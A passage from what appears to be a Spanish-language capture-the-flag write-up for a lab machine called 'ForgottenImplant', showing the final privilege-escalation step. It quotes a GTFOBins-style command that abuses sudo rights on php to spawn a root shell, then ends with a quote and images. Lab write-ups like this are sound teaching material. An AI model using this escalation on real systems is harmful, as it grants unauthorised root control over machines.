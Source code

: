 Con esto, podemos confirmar que tenemos la capacidad de ejecutar el comando `php` como usuario `root`.

{% embed url="https://gtfobins.github.io/gtfobins/php/" %}

```
CMD="/bin/sh"
sudo -u root /usr/bin/php -r "system('$CMD');"
```

De esta manera, logramos obtener los permisos y acceder al usuario `root`.

<figure><img src="../.gitbook/assets/ForgottenImplant/root.png" alt=""><figcaption></figcaption></figure>

>No es la muerte la que nos quita la vida, sino el temor a vivirla sin un propósito. Aquellos que temen al fracaso dejan de intentarlo, y quienes abandonan sus intentos ya han comenzado a morir en vida.

<figure><img src="../.gitbook/assets/ForgottenImplant/touhou.jpeg" alt=""><figcaption></figcaption></figure>